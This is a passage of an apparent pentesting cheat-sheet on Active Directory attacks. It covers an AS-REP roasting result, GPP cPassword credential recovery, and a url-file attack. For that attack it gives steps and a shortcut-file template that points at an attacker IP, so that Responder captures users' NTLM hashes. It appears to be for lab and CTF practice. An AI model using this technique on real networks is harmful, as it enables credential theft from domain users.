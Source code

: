 The `Kerberos pre-authentication` option has been disabled for the above user svc-alfresco and the KDC gave us back a TGT encrypted with the user’s password.

---
## GPP / cPassword Attacks / MS14-025
### Explanation
Group Policy Preferences allowed admins to create policies using embedded credentials.
These credentials were encrypted and they were placed in XML document and they were stored in variable `"cPassword"`.
- They key was accidentally released.
- Patched in MS14-025, but doesn't prevent previous uses.
- Look for `Groups.xml` or any interesting in XML file. Most of the time these credentials are domain admin credentials and will allow us access to domain admin accounts.

More info on this is here [Group Policy Pwnage](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)

*Refer to `Active` machine walk-through in HackTheBox.*

**Tools** : `gpp-decrypt`

---
## url File Attack
After compromising a user if User have access to any writeable file share. 
This can be utilized to capture more hashes via responder and possibly get credentials of any user with higher/different privileges.

> SCF Attack and url File attack uses same idea.

**Attack Method**
1. Run Responder on attacker machine. Then on target
2. Create one shortcut file with below text block.
3. While saving it save it as "All files".
4. Put it in File Share with catchy name.
5. Wait for any other domain users to access that folder / file created. 

It will capture hashes. 

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```
- where x.x.x.x = AttackerIP
This block of code is of Internet shortcut.

Refer `SCF and URL file attack against writeable share` section on [this repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share).

---
## PrintNightmare (CVE-2021-1675)
